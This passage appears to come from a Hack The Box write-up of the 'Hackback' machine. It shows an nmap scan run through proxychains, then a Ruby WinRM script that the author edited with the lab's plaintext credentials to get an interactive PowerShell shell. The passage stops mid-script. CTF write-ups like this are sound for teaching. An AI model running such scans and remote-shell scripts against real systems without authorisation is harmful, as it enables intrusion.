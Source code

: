 ```
# proxychains nmap -sT -p 22,80,135,139,443,445,3389,5985,5986,8080 127.0.0.1
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-05 20:46 EDT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.34s latency).

PORT     STATE  SERVICE
22/tcp   closed ssh
80/tcp   open   http
135/tcp  open   msrpc
139/tcp  closed netbios-ssn
443/tcp  closed https
445/tcp  open   microsoft-ds
3389/tcp open   ms-wbt-server
5985/tcp open   wsman
5986/tcp closed wsmans
8080/tcp open   http-proxy
```

There's a few additional ports open like WinRM and RDP. I can't RDP in because I don't have the proper privileges:

![](/assets/images/htb-writeup-hackback/rdpfail_simple.png)

To connect to WinRM running on port 5985 I used the [Alamot's ruby script](https://github.com/Alamot/code-snippets/tree/master/winrm). I edited it to put the credentials and the right endpoint.

```ruby
#!/usr/bin/ruby

require 'winrm'

conn = WinRM::Connection.new(
  endpoint: 'http://127.0.0.1:5985/wsman',
  user: 'hackback\simple',
  password: 'ZonoProprioZomaro:-(',
  :no_ssl_peer_verification => true
                            )

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end
```